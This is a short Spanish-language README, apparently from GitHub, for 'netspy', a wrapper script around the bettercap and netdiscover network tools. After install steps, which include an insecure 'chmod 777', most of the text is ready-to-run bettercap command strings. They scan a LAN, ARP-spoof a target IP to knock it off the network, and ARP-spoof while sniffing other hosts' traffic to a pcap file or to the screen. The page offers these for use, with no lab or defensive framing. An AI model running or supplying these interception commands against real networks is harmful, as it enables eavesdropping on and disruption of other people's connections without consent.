 <img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

# Bettercap v2.9

Escanear toda la Red:
net.probe on; ticker on

Banear tarjet IP con ARP:
set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:
net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

www.hackingyseguridad.com
